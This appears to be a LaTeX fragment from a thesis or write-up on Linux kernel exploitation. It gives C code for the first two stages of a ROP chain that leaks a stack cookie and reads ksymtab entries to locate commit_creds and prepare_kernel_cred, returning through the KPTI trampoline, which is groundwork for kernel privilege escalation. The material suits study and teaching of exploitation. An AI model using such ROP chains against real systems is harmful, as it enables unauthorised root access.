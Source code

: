 \documentclass{masterthesis}
\begin{document}
\subsection{Leaking commit_creds and prepare_kernel_cred()}
The goal is to leak \lstinline{commit_creds()} and read the value_offset of \lstinline{ksymtab_commit_creds}, then add them together. We will use our 2 memory reading gadgets to read it, using the ROP technique introduced in the paragraph (kpti trampoline), and safely return to the user-land via the KPTI trampoline to prepare for the next step.
\begin{lstlisting}
void stage_1(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rax_ret; // return address
    payload[off++] = ksymtab_commit_creds - 0x10; // rax <- __ksymtabs_commit_creds - 0x10
    payload[off++] = read_mem_pop1_ret; // rax <- [__ksymtabs_commit_creds]
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)get_commit_creds;
    ....
}
void get_commit_creds(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );
    commit_creds = ksymtab_commit_creds + (int)tmp_store;
    printf("    --> commit_creds: %lx\n", commit_creds);
    stage_2();
}
\end{lstlisting}
Second stageis exactly the same as stage 1:
\begin{lstlisting}
void stage_2(void){
    ...
    //the same as 1 stage
    ...
    payload[off++] = ksymtab_prepare_kernel_cred - 0x10; // rax <- __ksymtabs_prepare_kernel_cred - 0x10
    payload[off++] = read_mem_pop1_ret; // rax <- [__ksymtabs_prepare_kernel_cred]
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)get_prepare_kernel_cred;
    ....
}

void get_prepare_kernel_cred(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );
    prepare_kernel_cred = ksymtab_prepare_kernel_cred + (int)tmp_store;
    printf("    --> prepare_kernel_cred: %lx\n", prepare_kernel_cred);
    stage_3();
}

\end{lstlisting}
\end{document}
